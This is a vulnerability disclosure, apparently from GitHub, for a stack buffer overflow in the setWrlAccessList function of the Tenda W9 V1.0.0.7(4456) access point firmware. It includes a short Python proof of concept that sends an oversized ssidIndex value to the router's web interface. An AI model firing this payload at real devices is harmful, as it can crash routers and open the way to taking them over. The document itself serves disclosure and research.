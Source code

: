 # Tenda W9 V1.0.0.7(4456) AP has stack buffer overflow vulnerability
## Information

Vendor：https://www.tendacn.com/

Firmware：https://www.tenda.com.cn/download/detail-2986.html

## Affected Version
V1.0.0.7(4456)
## Vulnerability Analysis
The following image displays the code for a stack buffer overflow vulnerability in the `setWrlAccessList` function(at 0x44c8fc) of `httpd`. The value of the `ssidIndex` parameter will be concatenated ​​to local variable `s`, which will cause stack buffer overflow. **Regardless of the values of other parameters, the sprintf function will be executed. Because all branches lack premature exit statements and each branch contains the sprintf function with a stack overflow vulnerability.**

Address of `setWrlAccessList` function:

![define](./define.png)

Vulnerable Code:

![code](./code.png)
## POC
```python
from pwn import *
import requests

url = "http://192.168.0.1/goform/setWrlAccessList"

payload = { 
    'ssidIndex': cyclic(5000)
    }

headers = {
    'Cookie':'w9v1_user=admin;'
}
requests.request("POST", url, data=payload, headers=headers)
```
## NOTE
The vendor was contacted early about this disclosure but did not respond in any way.